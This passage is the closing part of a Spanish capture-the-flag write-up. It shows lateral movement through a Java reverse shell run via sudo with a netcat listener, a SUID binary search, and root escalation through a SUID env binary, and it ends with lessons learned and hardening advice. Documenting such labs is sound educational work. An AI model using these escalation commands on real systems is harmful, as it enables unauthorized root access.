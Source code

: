 Ahora nos ponemos en escucha:
```bash
nc -nlvp 443
```

Ejecutamos la **shell** para ganar aceso como este usuario:
```bash
# Comando para escalar al usuario: ( dylan )
sudo -u dylan /usr/bin/java /tmp/shell.java
```

###### Usuario `[ augustus ]`:
Listando los permisos para este usuario:
```bash
find / -perm -4000 -ls 2>/dev/null
```

Tenemos este binario:
```bash
5761950     44 -rwsr-xr-x   1 root     root          43976 Jan  8  2024 /usr/bin/env
```

Explotando el binario:
```bash
# comando para escalar al usuario privilegiado: ( root )
/usr/bin/env /bin/bash -p
```

---
## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
bash-5.1# whoami
root
```

---

## Lecciones Aprendidas
1. Aprendimos a crear un script en python3 para automatizar una inyeccion sql
2. Aprendimos a usar **SQLMap** para automatizar toda la inyeccion
3. Aprendimos a romper un **hashMD5** para obtener la contrasena del usuario.
4. Aprendimos a explotar el bianrio **env** para ganar acceso como **root**

## Recomendaciones de Seguridad
- Validar las **querys** para evitar **SQLInjection**
- NO dar privilegios **SUID** a bianrios criticos del sistema.